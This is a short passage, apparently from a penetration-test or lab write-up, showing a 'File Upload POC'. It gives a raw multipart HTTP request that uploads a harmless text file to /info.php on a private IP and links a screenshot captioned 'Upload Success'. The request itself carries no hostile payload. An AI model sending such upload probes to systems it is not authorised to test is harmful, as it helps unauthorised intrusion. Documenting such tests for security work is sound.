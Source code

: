 ### File Upload POC

```http
POST /info.php HTTP/1.1
Host: 192.168.40.49
Content-Type: multipart/form-data; boundary=--pwned
Content-Length: 145

----pwned
Content-Disposition: form-data; name="name";filename="test.txt"
Content-Type: text/plain

Hola esto es una Prueba

----pwned
```

![Upload Success](images/Pasted%20image%2020251013010813.png)
